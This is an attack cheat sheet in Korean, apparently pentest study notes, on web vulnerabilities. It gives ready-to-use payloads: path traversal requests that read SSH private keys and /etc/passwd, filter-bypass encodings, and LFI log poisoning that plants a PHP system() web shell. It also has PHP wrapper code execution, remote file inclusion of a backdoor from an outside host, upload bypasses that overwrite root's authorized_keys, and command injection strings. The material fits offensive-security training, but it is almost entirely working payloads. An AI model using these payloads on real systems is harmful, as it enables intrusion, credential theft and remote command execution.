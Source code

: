 # 🗂 Directory Traversal (Path Traversal)

`https://example.com/cms/login.php?language=en.html`  
→ `language` 파라미터로 특정 파일을 불러오는 정상 요청

`https://example.com/cms/login.php?language=../../../../home/kali/.ssh/id_rsa`  
→ 리눅스 사용자 SSH 개인키 접근

`https://example.com/cms/login.php?language=..\..\..\..\windows\win.ini`  
→ Windows 시스템 설정 파일(win.ini) 접근

---

## 🔑 인코딩이 필요할 때

`../../../../etc/passwd`  
→ 리눅스 사용자 계정 정보

`%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd`  
→ `.`을 `%2e`로 인코딩하여 필터 우회

`%252e%252e/%252e%252e/etc/passwd`  
→ 이중 인코딩(Double Encoding)으로 필터 우회

---

# 📄 Local File Inclusion (LFI) - Log Poisoning

```bash
curl https://example.com/index.php?page=../../../../../../../../../var/log/apache2/access.log
```
→ Apache `access.log`를 LFI로 불러오기

```text
User-Agent: <p><?php system($_REQUEST['cmd']); ?></p>
```
→ User-Agent에 PHP 코드 삽입(Log Poisoning)

```bash
../var/log/apache2/access.log&cmd=whoami
```
→ 삽입된 PHP 코드로 명령 실행

---

# 🐘 PHP Wrappers

```bash
curl https://example.com/index.php?page=php://filter/convert.base64-encode/resource=admin.php
```
→ `php://filter`로 파일을 Base64로 인코딩하여 소스코드 노출

```bash
curl "https://example.com/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"
```
→ `data://` 래퍼로 Base64 인코딩된 PHP 코드 전달 후 `ls` 실행

---

# 🌐 Remote File Inclusion (RFI)

```bash
curl "https://example.com/index.php?page=http://192.168.119.3/simple-backdoor.php&cmd=ls"
```
→ 외부 서버의 악성 PHP 파일 로드 후 명령 실행

---

# 📤 File Upload Vulnerabilities

`example.php`  
→ 정상 PHP 파일

`example.pHP`  
→ 대소문자 변형으로 확장자 필터 우회

`example.php.txt`  
→ 이중 확장자로 필터 우회

`upload '../../../../../../../test.txt'`  
→ 업로드 경로를 벗어나 상위 디렉토리에 파일 저장

`upload '../../../../../root/.ssh/authorized_keys'`  
→ SSH 공개키 덮어써서 백도어 접속 가능

---

# 💻 Command Injection

`;ifconfig`  
→ 세미콜론(;)으로 기존 명령 종료 후 `ifconfig` 실행

`%3Bifconfig`  
→ 세미콜론(;)을 URL 인코딩한 버전

```bash
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```
→ PowerShell 환경 여부 및 실행 위치 확인

---

## 📦 POST 데이터에 명령어 삽입하여 필터 우회 후 실행

```bash
curl -X POST --data 'Archive=git%3B(dir%202%3E%261%20*%60%7Cecho%20CMD)%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell' http://192.168.50.189:8000/archive
```
